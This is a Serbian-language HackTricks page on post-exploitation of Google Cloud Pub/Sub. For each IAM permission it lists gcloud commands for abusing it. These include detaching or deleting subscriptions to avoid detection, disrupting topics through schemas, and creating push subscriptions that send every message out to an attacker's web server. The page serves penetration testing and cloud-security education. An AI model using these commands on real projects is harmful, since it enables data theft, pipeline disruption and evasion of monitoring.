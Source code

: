 # GCP - Post eksploatacija Pub/Sub

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini da podržite HackTricks:

* Ako želite da vidite **vašu kompaniju reklamiranu na HackTricks-u** ili **preuzmete HackTricks u PDF formatu** proverite [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitter-u** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>

## Pub/Sub

Za više informacija o Pub/Sub-u pogledajte sledeću stranicu:

{% content-ref url="../gcp-services/gcp-pub-sub.md" %}
[gcp-pub-sub.md](../gcp-services/gcp-pub-sub.md)
{% endcontent-ref %}

### `pubsub.topics.publish`

Objavite poruku u temi, korisno za **slanje neočekivanih podataka** i pokretanje neočekivanih funkcionalnosti ili iskorišćavanje ranjivosti:
```bash
# Publish a message in a topic
gcloud pubsub topics publish <topic_name> --message "Hello!"
```
### `pubsub.topics.detachSubscription`

Korisno je da se spreči primanje poruka na pretplatu, možda da bi se izbeglo otkrivanje.
```bash
gcloud pubsub topics detach-subscription <FULL SUBSCRIPTION NAME>
```
### `pubsub.topics.delete`

Korisno je da se spreči primanje poruka na pretplatu, možda da bi se izbeglo otkrivanje.\
Moguće je obrisati temu čak i ako su joj pridružene pretplate.
```bash
gcloud pubsub topics delete <TOPIC NAME>
```
### `pubsub.topics.update`

Koristite ovu dozvolu da biste ažurirali neke postavke teme kako biste je poremetili, kao što su `--clear-schema-settings`, `--message-retention-duration`, `--message-storage-policy-allowed-regions`, `--schema`, `--schema-project`, `--topic-encryption-key`...

### `pubsub.topics.setIamPolicy`

Dodelite sebi dozvolu da izvršite bilo koji od prethodnih napada.

### **`pubsub.subscriptions.create,`**`pubsub.topics.attachSubscription` , (`pubsub.subscriptions.consume`)

Dobijte sve poruke na veb serveru:

{% code overflow="wrap" %}
```bash
# Crete push subscription and recieve all the messages instantly in your web server
gcloud pubsub subscriptions create <subscription name> --topic <topic name> --push-endpoint https://<URL to push to>
```
{% endcode %}

Kreirajte pretplatu i koristite je za **izvlačenje poruka**:
```bash
# This will retrive a non ACKed message (and won't ACK it)
gcloud pubsub subscriptions create <subscription name> --topic <topic_name>

# You also need pubsub.subscriptions.consume for this
gcloud pubsub subscriptions pull <FULL SUBSCRIPTION NAME>
## This command will wait for a message to be posted
```
### `pubsub.subscriptions.delete`

**Brisanje pretplate** može biti korisno za ometanje sistema za obradu logova ili nečeg sličnog:
```bash
gcloud pubsub subscriptions delete <FULL SUBSCRIPTION NAME>
```
### &#x20;`pubsub.subscriptions.update`

Koristite ovu dozvolu da biste ažurirali neka podešavanja tako da se poruke čuvaju na mestu koje možete pristupiti (URL, Big Query tabela, Bucket) ili samo da biste ga poremetili.

### `pubsub.subscriptions.setIamPolicy`

Dodelite sebi dozvole potrebne za izvođenje bilo koje od prethodno komentarisanih napada.

### `pubsub.schemas.delete`

Obrišite šemu kako biste mogli slati poruke koje ne ispunjavaju šemu:
```bash
gcloud pubsub schemas delete <SCHEMA NAME>
```
### `pubsub.schemas.attach`, `pubsub.topics.update`,(`pubsub.schemas.create`)

Napadnite šemu na temu tako da poruke ne ispunjavaju uslove i time poremetite temu.\
Ako ne postoje šeme, možda ćete morati da kreirate jednu.

{% code title="schema.json" %}
```json
{
"namespace": "com.example",
"type": "record",
"name": "Person",
"fields": [
{
"name": "name",
"type": "string"
},
{
"name": "age",
"type": "int"
}
]
}
```
{% endcode %}
```bash
# Attach new schema
gcloud pubsub topics update projects/<project-name>/topics/<topic-id> \
--schema=projects/<project-name>/schemas/<topic-id> \
--message-encoding=json
```
### `pubsub.schemas.setIamPolicy`

Dodelite sebi dozvole potrebne za izvršavanje bilo koje od prethodno komentarisanih napada.

### `pubsub.snapshots.create`,  `pubsub.snapshots.seek`

Ovo će kreirati snimak svih neACKovanih poruka i vratiti ih nazad na pretplatu. Nije baš korisno za napadača, ali evo ga:
```bash
gcloud pubsub snapshots create YOUR_SNAPSHOT_NAME \
--subscription=YOUR_SUBSCRIPTION_NAME
gcloud pubsub subscriptions seek YOUR_SUBSCRIPTION_NAME \
--snapshot=YOUR_SNAPSHOT_NAME
```
<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite **vašu kompaniju reklamiranu na HackTricks-u** ili **preuzmete HackTricks u PDF formatu** proverite [**PLANOVE PRETPLATE**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitter-u** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
